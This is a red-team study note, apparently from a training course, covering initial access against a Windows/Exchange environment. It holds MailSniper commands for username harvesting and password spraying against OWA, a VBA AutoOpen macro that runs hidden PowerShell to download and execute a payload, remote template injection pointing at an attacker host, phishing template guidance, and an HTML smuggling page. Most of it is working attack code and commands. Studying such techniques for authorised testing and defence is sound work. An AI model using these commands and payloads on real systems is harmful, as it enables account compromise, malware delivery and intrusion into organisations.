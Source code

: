 ## Password Spraying

---

1. Enumerate NetBIOS name of the target domain with [[MailSniper#Invoke-DomainHarvestOWA]]
``` powershell
ipmo C:\Tools\MailSniper\MailSniper.ps1
Invoke-DomainHarvestOWA -ExchHostname <domain>
```

2. Generate possible usernames from full names with [namemash.py](https://gist.github.com/superkojiman/11076951)
``` bash
./namemash.py names.txt > possible.txt
```

3. Validate which usernames are valid with [[MailSniper#Invoke-UsernameHarvestOWA]]
``` powershell
Invoke-UsernameHarvestOWA -ExchHostname <exchange_hostname> -Domain <domain> -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
```

4. Spray passwords against the valid accounts using Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS) with [[MailSniper#Invoke-PasswordSprayOWA]]
``` powershell
Invoke-PasswordSprayOWA -ExchHostname <exchange_hostname> -UserList .\Desktop\valid.txt -Password <password>
```

5. Download the global address list with valid credentials with [[MailSniper#Get-GlobalAddressList]]
``` powershell
Get-GlobalAddressList -ExchHostname <exchange_hostname> -UserName <domain>\<username> -Password <password> -OutFile .\Desktop\gal.txt
```


## Internal Phishing

---

### Initial Access Payloads

1. Send a URL where a payload can be downloaded.
2. Attach the payload to the phishing email.


### VBA Macros

- create beacon payload in [[Cobalt Strike#Create Beacon Payload]]
go to `Attacks > Scripted Web Delivery (S)` and generate a 64-bit PowerShell payload

![](https://files.cdn.thinkific.com/file_uploads/584845/images/94e/ba0/32d/swd.png)
![](https://files.cdn.thinkific.com/file_uploads/584845/images/5c5/5b6/77d/oneliner.png)

- prepare word document
	1. `File > Info > Inspect Document > Inspect Document`
	2. click `Inspect`
	3. click `Remove All`
	4. `File > Save As`
	5. use `.doc`

- host a file on [[Cobalt Strike#Host a File]] team server
`Site Management > Host File` and select document

![](https://files.cdn.thinkific.com/file_uploads/584845/images/087/4fa/7c4/host-file.png)

- auto open script
``` vba
Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('<url>'))"""

End Sub
```

[Here](https://github.com/ZeroPointSecurity/PhishingTemplates/tree/master/Office365) are some HTML templates based around Office 365 (a copy can also be found in `C:\Tools\PhishingTemplates`).  Open one of them, e.g. `Word.html` in Edge or another browser. Amazingly, what you can do is `Ctrl + A` and `Ctrl + C` to copy the content; and then `Ctrl + V` to paste it directly into the OWA text editor.  All the text and image formatting should be preserved.

You can change the text placeholders and URL to the payload on lines [160](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L160), [183](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L183), [192](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L192), [197](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L197), and [207](https://github.com/ZeroPointSecurity/PhishingTemplates/blob/master/Office365/Word.html#L207).  My payload URL will be _http://nickelviper.com/ProductReport.doc_.

## Remote Template Injection

---

Open Word on the Attacker Desktop, create a new blank document and insert your desired macro.  Save this to `C:\Payloads` as a Word 97-2003 Template (*.dot) file.  This is now our "malicious remote template".  Use [[Cobalt Strike#Host a File]] to host this file at _http://nickelviper.com/template.dot_.

Next, create a new document from the blank template located in `C:\Users\Attacker\Documents\Custom Office Templates`.  Add any content you want, then save it to `C:\Payloads` as a new .docx.  Browse to the directory in explorer, right-click and select _7-Zip > Open archive_.  Navigate to _word > _rels, r_ight-click on `settings.xml.rels` and select _Edit_.

This is just a small XML file.  Scroll right until you see the _Target_ entry.

Target="file:///C:\Users\Attacker\Documents\Custom%20Office%20Templates\Blank%20Template.dotx"

It's currently pointing to the template on our local disk from which the document was created.  Simply modify this so it points to the template URL instead.

Target="http://nickelviper.com/template.dot"

## HTML Smuggling

---

``` html
<html>
    <head>
        <title>HTML Smuggling</title>
    </head>
    <body>
        <p>This is all the user will see...</p>

        <script>
        function convertFromBase64(base64) {
            var binary_string = window.atob(base64);
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
            return bytes.buffer;
        }

        var file ='VGhpcyBpcyBhIHNtdWdnbGVkIGZpbGU=';
        var data = convertFromBase64(file);
        var blob = new Blob([data], {type: 'octet/stream'});
        var fileName = 'test.txt';

        if(window.navigator.msSaveOrOpenBlob) window.navigator.msSaveBlob(blob,fileName);
        else {
            var a = document.createElement('a');
            document.body.appendChild(a);
            a.style = 'display: none';
            var url = window.URL.createObjectURL(blob);
            a.href = url;
            a.download = fileName;
            a.click();
            window.URL.revokeObjectURL(url);
        }
        </script>
    </body>
</html>
```